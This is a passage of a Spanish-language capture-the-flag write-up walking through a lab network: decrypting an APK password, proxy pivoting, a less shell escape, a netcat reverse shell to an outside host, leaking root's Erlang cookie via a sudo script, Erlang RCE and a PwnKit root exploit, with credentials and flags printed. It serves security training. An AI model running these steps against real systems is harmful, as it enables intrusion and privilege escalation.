-rw-r--r--    1 1000     1000         4141 Feb 24  2021 hackfail.ovpn
226 Directory send OK.
ftp> get hackfail-authenticator.apk
local: hackfail-authenticator.apk remote: hackfail-authenticator.apk
150 Opening BINARY mode data connection for hackfail-authenticator.apk (2280632 bytes).  
226 Transfer complete.
ftp> get hackfail.ovpn
local: hackfail.ovpn remote: hackfail.ovpn
150 Opening BINARY mode data connection for hackfail.ovpn (4141 bytes).
226 Transfer complete.
ftp>
```

  

Para analizar el archivo apk primero lo convertiremos en un jar usando `d2j-dex2jar`

```
❯ d2j-dex2jar hackfail-authenticator.apk  
```

  

Ahora con `jd-gui` podemos decompilar el jar, en la clase `MainActivity` podemos ver una lista de `decimales` que conforman una cadena cifrada para la contraseña



Para el cifrado de esta cadena utiliza `ChaCha20`, podemos ver el codigo en la clase



En el siguiente [articulo](https://www.javainterviewpoint.com/chacha20-encryption-and-decryption/) podemos ver como funciona el cifrado de `ChaCha20`, para decifrarlo necesitaremos la cadena encriptada y una cadena en texto plano, ambas podemos encontrarlas en la clase `MainActivity` y las representaremos en hex



Basandonos en el [articulo](https://www.javainterviewpoint.com/chacha20-encryption-and-decryption/) de como funciona `ChaCha20` y las funciones que encontramos el propio codigo de la clase que vemos en `jd-gui` podemos crear un pequeño script en `python` que con ello se encargue de decifrar la cadene cifrada

```
#!/usr/bin/python3
import ctypes

plain_text = list(bytearray.fromhex("4c6f72656d20697073756d20646f6c6f722073697420616d65742c20636f6e7365637465747565722061646970697363696e6720656c69742e2041656e65616e20636f6d6d6f646f206c6967756c612e"))  
crypt_text = list(bytearray.fromhex("6a5b13ae21bd06b2426eb4c5fbe6f0c432c3e24e904daf6e064063dcbb5d9dd953bd85e038a2eb2b9495e3dffd58e0cc275a1e6f0fd262bf5371bab8969256b789bc66c9c8f6303a21d6400925e056ff"))  

plain_text = [int.from_bytes(bytes(plain_text[i * 4 : i * 4 + 4]), "big") for i in range(16)]
crypt_text = [int.from_bytes(bytes(crypt_text[i * 4 : i * 4 + 4]), "big") for i in range(16)]

def inner(state):
    def quarterRound(a, b, c, d):
        def rotate(v, c):
            return ((v >> c) & 0xffffffff) | v << (32 - c) & 0xffffffff

        state[b] = rotate(state[b], 7) ^ state[c]
        state[c] = (state[c] - state[d]) & 0xffffffff
        state[d] = rotate(state[d], 8) ^ state[a]
        state[a] = (state[a] - state[b]) & 0xffffffff
        state[b] = rotate(state[b], 12) ^ state[c]
        state[c] = (state[c] - state[d]) & 0xffffffff
        state[d] = rotate(state[d], 16) ^ state[a]
        state[a] = (state[a] - state[b]) & 0xffffffff

    for i in range(10):
        quarterRound(3, 4, 9, 14)
        quarterRound(2, 7, 8, 13)
        quarterRound(1, 6, 11, 12)
        quarterRound(0, 5, 10, 15)
        quarterRound(3, 7, 11, 15)
        quarterRound(2, 6, 10, 14)
        quarterRound(1, 5, 9, 13)
        quarterRound(0, 4, 8, 12)

    return b"".join([i.to_bytes(4, byteorder="little") for i in state][0:12]).decode()

def xor(a, b):
    a1 = ctypes.c_ulong(a).value
    b1 = ctypes.c_ulong(b).value

    a = f"{a1:08x}"
    b = f"{b1:08x}"

    if len(a) == 16:
        a = a[8:]

    if len(b) == 16:
        b = b[8:]

    value = ""

    for i in range(3, -1, -1):
        t = (hex(int("0x" + a[i * 2 : i * 2 + 2], 0) ^ int("0x" + b[i * 2 : i * 2 + 2], 0)))[2:]

        if len(t) == 1:
            t = "0" + t

        value += t

    return "0x" + value

password = inner([int(xor(plain_text[i], crypt_text[i]), 16) for i in range(16)])[16:]

print(password)
```

  

Al ejecutar el script nos muestra la `contraseña` del apk que a su vez es la `flag` 3

```
❯ python3 decrypt.py
SYNACKTIV{m0r3_L1k3_Crypt0F@1l!}  
```

### Spongbob's neighbour


Para ver el funcionamiento instalaremos el `apk` en un movil, al abrir la app nos pedira una `contraseña` la cual sabemos que es la `flag` que conseguimos antes



Al ingresar la contraseña la aplicacion inicia a generar codigos `otp`



Estos codigos podemos usarlos para la `vpn` que teniamos antes, al intentar iniciar la vpn nos pide un usuario que sera `elonmusk` y una contraseña que sera el `otp`

```
❯ sudo openvpn hackfail.ovpn
Enter Auth Username: elonmusk  
Enter Auth Password: 75703172  
```

  

Al iniciarse la `vpn` se nos abre una nueva interfaz con la direccion IPv4 `172.22.0.10`

```
❯ ifconfig tun1
tun1: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 172.22.0.10  netmask 255.255.255.255  destination 172.22.0.5
        inet6 fe80::f78:7adc:30f:bdf2  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)  
        RX packets 1  bytes 84 (84.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 7  bytes 444 (444.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

  

Para buscar hosts activos en la red de la que formamos parte podemos usar `fping`

```
❯ fping -g -r 1 172.22.0.0/16  
172.22.0.10 is alive
172.22.0.1 is alive
172.22.5.176 is alive
172.22.43.1 is alive
172.22.43.142 is alive
```

  

La `.5.176` parece interesante sin embargo aunque tiene `ssh` no funcionan las credenciales y los demas `puertos` no nos muestran nada realmente claro

```
❯ nmap 172.22.5.176
Nmap scan report for 172.22.5.176
PORT    STATE SERVICE
22/tcp  open  ssh
179/tcp open  bgp
646/tcp open  ldp

❯ netcat 172.22.5.176 179
����������������}bZ������������������  
```

  

Escaneando la `.43.1` encontramos algo interesante, esta corriendo un `squid proxy`

```
❯ nmap 172.22.43.1
Nmap scan report for 172.22.43.1  
PORT     STATE SERVICE
3128/tcp open  squid-http
```

  

Al abrirlo en el navegador podemos encontrar algo interesante que es el nombre del equipo `core01` por lo que podemos pensar que el dominio es `core01.local`



Podemos escanear puertos con este dominio usando [spose](https://github.com/aancw/spose) que pasando a traves del `squid proxy` logramos encontrar el puerto `22` de ssh abierto en el equipo

```
❯ python3 spose.py --proxy http://172.22.43.1:3128 --target core01.local  
Using proxy address http://172.22.43.1:3128
core01.local 22 seems OPEN
```

  

Para facilitar la configuracion instalaremos [corkscrew](https://github.com/bryanpkc/corkscrew) y en la config de `ssh` indicaremos que pase a traves del `squid proxy` cuando se vaya a conectar a ssh

```
~/.ssh ❯ cat config
ProxyCommand corkscrew 172.22.43.1 3128 %h %p  
```

  

Ya tenemos configurado `ssh` pero necesitamos credenciales, volviendo al `ftp` como elonmusk en el directorio de `bob` nos encontramos un archivo `readme.txt`

```
monitoring@watcher:~$ ftp 172.22.1.53
Connected to 172.22.1.53.
220 (vsFTPd 3.0.3)
Name (172.22.1.53:monitoring): elonmusk
331 Please specify the password.
Password: 28fL+PvkSl0P5+zhkvPLCw
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd bob
250 Directory successfully changed.
ftp> ls
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001          184 Feb 24  2021 readme.txt
226 Directory send OK.
ftp> get readme.txt
local: readme.txt remote: readme.txt
150 Opening BINARY mode data connection for readme.txt (184 bytes).  
226 Transfer complete.
ftp>
```

  

El `readme.txt` es un mensaje donde se le dice que cambie la contraseña del usuario `network_admin`, ya que esta es demasiado obvia por lo que podria ser su nombre

```
monitoring@watcher:~$ cat readme.txt 
Hey bob,
I already told you to change your credentials for the network_admin, it is too obvious!.  
Once you have done that, please backup the files I told you on our network appliance.
monitoring@watcher:~$
```

  

Al usar `network_admin` como usuario y contraseña para `ssh` obtenemos acceso a la maquina pero no una `shell` sino un binario probablemente personalizado

```
❯ ssh network_admin@core01.local
network_admin@core01.local's password: network_admin

            _       _       _                           _             
   /\      | |     (_)     (_)     _               _   (_)            
  /  \   _ | |____  _ ____  _  ___| |_   ____ ____| |_  _  ___  ____  
 / /\ \ / || |    \| |  _ \| |/___)  _) / ___) _  |  _)| |/ _ \|  _ \ 
| |__| ( (_| | | | | | | | | |___ | |__| |  ( ( | | |__| | |_| | | | |
|______|\____|_|_|_|_|_| |_|_(___/ \___)_|   \_||_|\___)_|\___/|_| |_|
                                                                      
                             _                                        
                            | |                                       
  ____ ___  ____   ___  ___ | | ____                                  
 / ___) _ \|  _ \ /___)/ _ \| |/ _  )                                 
( (__| |_| | | | |___ | |_| | ( (/ /                                  
 \____)___/|_| |_(___/ \___/|_|\____)                                 
                                         
[+] Script to perform administration tasks.
[+] This is a very sensitive network applicance, be carefull with your actions.  

[+] List of available commands:
        - id                    return the uid
        - flag                  welcome banner
        - listSocketsListen     list listenting TCP sockets
        - listSockets           list sockets
        - backup                make a configuration backup
        - backupRestore         resore a configuration backup
        - listCmd               display the list of the valid commands
        - changeLog             display the change log
        - showIp                display IP address
        - setIp                 change IP address
        - showDNS               display DNS server address
        - setDNS                set DNS server address
        - showRoutes            display routes
        - setRoutes             set routes
        - showUsers             display users
        - exit                  exit

[admin]>
```

  

Aqui se nos muestra una funcion llamada `flag` que al ejecutarla nos muestra la flag

```
[admin]> flag
SYNACKTIV{Th3r3_1s_n0_pl4ce_l1ke_l0c@lh0st}  
[admin]>
```

### I want to break free


Dentro de las funciones encontramos `changeLog` que es la que mas llama la atención ya que nos abre un archivo pero con `less` ya que entra en modo paginate

```
[admin]> changeLog

# Change Log

## [6.2.0]

### Fixed

Use less instead of vim to prevent shell escape.

### Added

................................................  
```

  

Si intentamos ejecutar el comando `id` usando `!` simplemente saldra sin ejecutarlo

```
!id
[admin]>
```

  

Mirando la ayuda de `less` encontramos otra forma de ejecutar comandos con `mark`, la sintaxis es bastante parecida simplemente cambiaremos `!` por `|$` y el comando

```
!command       Execute the shell command with $SHELL.
|Xcommand      Pipe file between current pos & mark X to shell command.  
```

  

Al ejecutar el `id` usando `|$` si que lo ejecuta y aunque sale nos muestra el output

```
|$id
uid=1001(network_admin) gid=1001(network_admin) groups=1001(network_admin)  
[admin]>
```

  

Ya que ejecutamos comandos podemos enviarnos una bash con `netcat` y ganamos acceso como el usuario `network_admin` que en su directorio home tiene la flag

```
|$netcat -e /bin/bash 10.10.14.10 443  
```

  

```
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.13
python3 -c "import pty; pty.spawn('/bin/bash')"
network_admin@core01:~$ id
uid=1001(network_admin) gid=1001(network_admin) groups=1001(network_admin)  
network_admin@core01:~$ hostname -I
10.13.37.13 172.22.1.1 172.22.43.1 dead:beef::250:56ff:feb9:f81b
network_admin@core01:~$ cat flag.txt
SYNACKTIV{L3ss_is_Th3_n3w_Sh3LL}
network_admin@core01:~$
```

### Muppets love'em


Mirando los privilegios de `sudoers` este usuario puede ejecutar un binario `admin_backup` como root sin proporcionar contraseña, este tiene 2 modos

```
network_admin@core01:~$ sudo -l
Matching Defaults entries for network_admin on core01:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/bin\:/sbin\:/bin  

User network_admin may run the following commands on core01:
    (root) NOPASSWD: /usr/bin/admin_backup
network_admin@core01:~$ sudo /usr/bin/admin_backup
Usage:
  admin_backup.py [options] backup [--conf-file=<file>]
  admin_backup.py [options] restore
network_admin@core01:~$
```

  

Podemos leer el codigo del binario, este es un script de `python`, este lee cada linea del archivo `.conf` indicado y guarda los archivos indicados en un `zip` en /root

```
BACKUP_CONF = "/root/backup.conf"
BACKUP = "/root/backup.zip"

def backup(confFile):
    print("[+] Reading configuration file.")
    f = open(confFile, 'r')
    print("[+] Making backup.")
    with ZipFile(BACKUP, 'w') as zipBackup:
        for line in f.readlines():
            line = line.strip()
            content = open(line, 'r').read()
            zipBackup.writestr(line, content)  
    zipBackup.close()
    f.close()

def backupRestore():
    # not implemented
    print("[+] Not implemented.")
```

  

El funcionamiento normal seria pasarle como conf un archivo con una lista de archivos

```
network_admin@core01:~$ sudo admin_backup backup --conf-file=/root/backup.conf  
[+] Reading configuration file.
[+] Making backup.
network_admin@core01:~$
```

  

Pero tiene una vulnerabilidad y es que al leer este archivo e intentar guardar el archivo de cada `linea` si indicamos otro archivo a traves del `error` deberiamos poder leer la primera `linea` de este y bajo el contexto de `sudo` lo hariamos como root

```
network_admin@core01:~$ sudo admin_backup backup --conf-file=/etc/passwd
[+] Reading configuration file.
[+] Making backup.
Traceback (most recent call last):
  File "/usr/bin/admin_backup", line 45, in <module>
    backup(confFile)
  File "/usr/bin/admin_backup", line 28, in backup
    content = open(line, 'r').read()
FileNotFoundError: [Errno 2] No such file or directory: 'root:x:0:0:root:/root:/bin/bash'  
network_admin@core01:~$
```

  

Otra cosa interesante seria ver algunos `puertos` internos, entre ellos encontramos le puerto `4369` que despues de una busqueda rapida vemos pertenece a `erlang`

```
network_admin@core01:~$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:22            0.0.0.0:*               LISTEN     
tcp        0      0 172.22.43.1:3128        0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:45183           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:37769           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:39851           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:37453         127.0.0.1:4369          ESTABLISHED  
tcp        0      0 10.13.37.13:45624       10.10.14.4:9001         ESTABLISHED  
tcp        0      0 10.13.37.13:46926       10.10.16.8:9008         ESTABLISHED  
tcp        0      0 127.0.0.1:41703         127.0.0.1:4369          ESTABLISHED  
tcp        0      0 127.0.0.1:33626         127.0.0.1:22            ESTABLISHED  
tcp        0      0 127.0.0.1:22            127.0.0.1:33626         ESTABLISHED  
tcp        0      0 10.13.37.13:43014       10.10.14.4:4444         ESTABLISHED  
tcp        0      0 10.13.37.13:52936       10.10.16.8:9006         ESTABLISHED  
tcp        0      0 172.22.43.1:3128        172.22.43.142:37142     ESTABLISHED  
tcp        0      0 127.0.0.1:45881         127.0.0.1:4369          ESTABLISHED  
tcp6       0      0 :::4369                 :::*                    LISTEN     
tcp6       0      0 127.0.0.1:4369          127.0.0.1:37453         ESTABLISHED  
tcp6       0      0 127.0.0.1:4369          127.0.0.1:45881         ESTABLISHED  
tcp6       0      0 127.0.0.1:4369          127.0.0.1:41703         ESTABLISHED  
network_admin@core01:~$
```

  

El siguiente [articulo](https://medium.com/@_sadshade/couchdb-erlang-and-cookies-rce-on-default-settings-b1e9173a4bcd) nos dice que con la `cookie` de erlang podriamos ejecutar comandos, el usuario actual tiene el `archivo` existente pero sin ningun contenido

```
network_admin@core01:~$ cat .erlang.cookie  
network_admin@core01:~$
```

  

Sin embargo podemos leer la primera de un archivo como `root`, asi que si indicamos como archivo el `.erlang.cookie` de root nos mostrara su contenido en el error

```
network_admin@core01:~$ sudo admin_backup backup --conf-file=/root/.erlang.cookie  
[+] Reading configuration file.
[+] Making backup.
Traceback (most recent call last):
  File "/usr/bin/admin_backup", line 45, in <module>
    backup(confFile)
  File "/usr/bin/admin_backup", line 28, in backup
    content = open(line, 'r').read()
FileNotFoundError: [Errno 2] No such file or directory: 'MLTSUUNJKJYAXRTQYKLA'
network_admin@core01:~$
```

  

Ya con la cookie podemos usar el [exploit](https://github.com/sadshade/erlang-otp-rce) que se nos muestra en el articulo sin embargo sera necesario cambiar la linea donde se define la `cookie` por la de root

```
COOKIE = "MLTSUUNJKJYAXRTQYKLA" # Default Erlang cookie for CouchDB  
```

  

Ejecutamos el script y despues de indicar el `host` y un nodo nos pedira un comando

```
network_admin@core01:~$ python3 erlang-otp-rce.py 
Remote Command Execution via Erlang Distribution Protocol.  

Enter target host:
> 127.0.0.1

More than one node found, choose which one to use:
 1) name network_node3 at port 37769
 2) name network_node1 at port 45183
 3) name network_node2 at port 39851

> 1
Authentication successful
Enter command:

>
```

  

El comando que enviemos sera ejecutado como el usuario `root` en el equipo, asi que como root deberiamos poder el archivo `/root/flag.txt` sin ningun problema

```
> id
uid=0(root) gid=0(root) groups=0(root)

> hostname -I
10.13.37.13 172.22.1.1 172.22.43.1 dead:beef::250:56ff:feb9:f81b  

> cat /root/flag.txt
SYNACKTIV{E@t_d4t_C00kie}

>
```

### The HTB redemption


En el directorio `/` tambien encontramos un archivo `flag.txt` que es la ultima, sin embargo aunque ejecutamos comandos como `root` no tenemos permiso para leer

```
> ls -l /flag.txt
-rw-r----- 1 root root 33 Mar  5  2021 /flag.txt  

> cat /flag.txt
cat: /flag.txt: Permission denied

>
```

  

Tal vez necesitamos ganar acceso como `root` de otra forma para leerla, buscando por binarios `suid` nos encontramos con el ya famoso `pkexec` con estos privilegios

```
network_admin@core01:~$ find / -perm -u+s 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/ntfs-3g
/usr/bin/bwrap
/usr/bin/su
/usr/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/mount
network_admin@core01:~$ ls -l /usr/bin/pkexec
-rwsr-xr-x 1 root root 23288 Jan 15  2019 /usr/bin/pkexec  
network_admin@core01:~$
```

  
Podemos simplemente usar un exploit del [pwnkit](https://github.com/joeammond/CVE-2021-4034) y al ejecutarlo ganamos una shell como el usuario `root`, curiosamente desde esta si que podemos leer la `flag`

```
network_admin@core01:~$ python3 CVE-2021-4034.py 
[+] Creating shared library for exploit code.
[+] Calling execve()
# whoami
root
# hostname -I
10.13.37.13 172.22.1.1 172.22.43.1 dead:beef::250:56ff:feb9:f81b  
# cat /flag.txt
SYNACKTIV{S3Linux_1s_w@y_bett3r}
#
```

  